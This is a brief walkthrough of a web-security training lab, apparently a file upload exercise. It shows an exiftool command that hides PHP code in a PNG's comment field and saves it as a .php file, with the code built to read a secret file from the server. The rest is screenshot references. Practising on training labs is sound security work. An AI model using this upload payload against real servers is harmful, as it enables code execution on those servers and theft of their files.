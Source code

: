 **Step1**

To solve this lab we make a file with php extension and a payload in its meta deta. Other properties of a images file.

So we use command

`exiftool -Comment="<?php echo 'starting point<< ' . file_get_contents('/home/carlos/secret') . ' >>Ending of file'; ?>" cat.png -o payload.php`

<img src="images/image30.png" alt="third" width="500">

Now one php file is created but other properties of png file

<img src="images/image31.png" alt="third" width="500">

<img src="images/image32.png" alt="third" width="500">
